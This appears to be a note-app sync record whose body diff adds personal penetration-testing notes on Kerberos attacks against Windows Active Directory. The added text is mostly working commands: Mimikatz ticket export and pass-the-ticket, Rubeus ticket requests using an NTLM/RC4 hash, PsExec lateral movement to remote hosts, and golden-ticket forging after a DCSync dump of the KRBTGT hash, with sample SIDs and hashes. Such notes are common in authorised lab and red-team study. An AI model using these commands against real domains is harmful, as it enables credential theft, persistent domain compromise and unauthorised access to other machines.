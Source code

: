 id: 42a183495f03446b8436a2d73e2ff8d3
parent_id: 0aa0e189fc7148d6a96c21888eaf6ff9
item_type: 1
item_id: a11afaa273734c1cb355f718651db3df
item_updated_time: 1653926345429
title_diff: "[]"
body_diff: "[{\"diffs\":[[0,\"e-ticket\"],[1,\"\\\n> \\\n> \\\\# Using Mimikatz - will need RDP to get the cmd session\\\n> \\\n> kerberos::list\\\n> \\\n> kerberos::list /export\\\n> \\\n> kerberos::ptt ticket.kirbi\\\n> \\\n> misc::cmd\\\n> \\\n> \\\\# Using Reubeus\\\n> \\\n> Rubeus.exe asktgt /domain:ignite.local /user:Administrator /rc4: 32196b56ffe6f45e294117b91a83bf38 /ptt\\\n> \\\n> dir \\\\\\\\\\\\WIN-S0V7KMTVLD2\\\\\\\\c$\\\n> \\\n> \\\\# If we don't use Reubeus to ptt in the same session; reuse the ticket extracted\\\n> \\\n> Rubeus.exe ptt /ticket:ticket.kirbi\\\n> \\\n> PsExec.exe \\\\\\\\\\\\192.168.1.105 cmd.exe\\\n> \\\n> ipconfig\\\n\\\nGolden Ticket Generation - Requires 'access' to krbtgt\\\n\\\nhttps://pentestlab.blog/2018/04/09/golden-ticket/ \\\n\\\n> \\\\# on Mimikatz - get SID and krbtgt hash\\\n> \\\n> privilege::debug\\\n> \\\n> `lsadump::dcsync /user:DOMAIN\\\\KRBTGT`\\\n> \\\n> \\\\# Generate the golden ticket\\\n> \\\n> kerberos::golden /user:pavan /domain:DOMAIN /sid:S-1-5-21-3523557010-2506964455-2614950430 /krbtgt:f3bc61e97fb14d18c42bcbf6c3a9055f /id:500 /ptt\\\n> \\\n> misc::cmd\\\n> \\\n> PsExec64.exe \\\\\\\\\\\\192.168.1.105 cmd.exe\\\n> \\\n> ipconfig\"],[0,\"\\\n\\\nBloodH\"]],\"start1\":1033,\"start2\":1033,\"length1\":16,\"length2\":992}]"
metadata_diff: {"new":{},"deleted":[]}
encryption_cipher_text: 
encryption_applied: 0
updated_time: 2022-05-30T16:01:22.516Z
created_time: 2022-05-30T16:01:22.516Z
type_: 13